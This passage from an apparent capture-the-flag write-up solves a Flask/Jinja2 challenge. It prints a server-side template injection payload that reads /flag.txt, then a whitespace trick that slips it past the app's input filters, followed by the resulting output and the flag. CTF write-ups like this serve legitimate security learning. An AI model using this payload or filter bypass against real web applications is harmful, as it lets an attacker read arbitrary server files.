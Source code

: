 Yeah! Let's exploit it now!

We have to read a remote file so let's this payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---read-remote-file):

```py
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
```

We have 2 filters to bypass, ``{{`` and ``\.[a-zA-Z]``, we will use the same method to bypass it, here is our new payload:

```
{ {get_flashed_messages.__globals__.__builtins__. open("/flag. txt"). read()} }
```

We put a whitespace between dots and letters because the regex doesn't allow dots near letters. So after the ``secure()`` function it will render our payload:

```
[Fantasy Book]~$ python3 fantasy_book.py 
Payload: { {get_flashed_messages.__globals__.__builtins__. open("/flag. txt"). read()} }

Payload sanitized: {{get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read()}}

<img alt="What a cool user picture #R2Lille{SST1_4r3_Qu1T3_FUnn1_Fl3sK_L0v3RS}" id="alert" src="/static/images/%7B%20%7Bget_flashed_messages.__globals__.__builtins__.%20open%28%22/flag.%20txt%22%29.%20read%28%29%7D%20%7D.png" width="140"/>
```

Yes! Here is our flag: ``R2Lille{SST1_4r3_Qu1T3_FUnn1_Fl3sK_L0v3RS}``.